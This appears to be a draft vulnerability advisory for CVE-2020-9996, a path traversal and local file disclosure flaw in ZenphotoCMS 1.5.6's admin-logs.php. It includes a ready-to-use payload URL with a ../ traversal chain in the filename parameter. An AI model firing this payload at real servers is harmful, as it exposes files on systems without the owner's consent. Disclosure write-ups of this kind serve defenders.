 ```yaml
---
cve: "CVE-2020-9996"
title: "Path traversal in ZenphotoCMS v1.5.6 and prior"
date: 2020-02-10
draft: yes
tags:
- path traversal
- lfd
---
```

Zenphoto v1.5.6 and prior is prone to Local File Disclosure. The `admin-logs.php` script allows to access sensitive files from the local system.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9996

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Environment:**  
Version: 1.5.6  
OS: Ubuntu 16.10  
Web server: Apache 2.4.18  
PHP: 7.4.2  
Database: MySQL 5.7.28  
URL: `/zp-core/admin-logs.php`  

**Payload:**  
```/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae```

**PoC:**  
![cve-2020-2996](/images/cve-2020-2996.png)
